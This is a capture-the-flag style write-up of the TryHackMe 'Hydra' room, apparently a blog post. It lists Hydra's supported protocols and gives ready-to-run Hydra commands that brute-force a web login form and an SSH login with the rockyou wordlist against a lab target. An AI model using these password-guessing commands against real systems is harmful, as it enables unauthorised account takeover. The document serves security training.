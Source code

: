 ```yaml
---
layout: article
title:  "Hydra - TryHackMe"
date:   2020-11-27 00:30:53 +0  530
# categories: [writeup, tryhackme]
# category: writeup
tags:
  - writeup
  - tryhackme
  - bruteforce
  - hydra
  - password-cracking
---
```


[Room Link](https://tryhackme.com/room/hydra)

> Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

# Task 1 : Hydra Introduction

nice info

# Task 2 : Using Hydra

## Web-form

Lets open the web form

![/assets/images/posts/hydra/Untitled.png](/assets/images/posts/hydra/Untitled.png)

We will use `Burp Suite` to determine the `POST` request sent

![/assets/images/posts/hydra/Untitled%201.png](/assets/images/posts/hydra/Untitled%201.png)

This is the message we get on wrong credentials

![/assets/images/posts/hydra/Untitled%202.png](/assets/images/posts/hydra/Untitled%202.png)

So, our `hydra` command will be (I'm using rockyou.txt) :

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt <ip>  http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."
```

![/assets/images/posts/hydra/Untitled%203.png](/assets/images/posts/hydra/Untitled%203.png)

Now use the obtained password to login into the website and get the flag.

## SSH

we use the following command

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt <ip> -t 4 ssh
```

![/assets/images/posts/hydra/Untitled%204.png](/assets/images/posts/hydra/Untitled%204.png)

Now you can ssh into the server and obtain the flag

![/assets/images/posts/hydra/Untitled%205.png](/assets/images/posts/hydra/Untitled%205.png)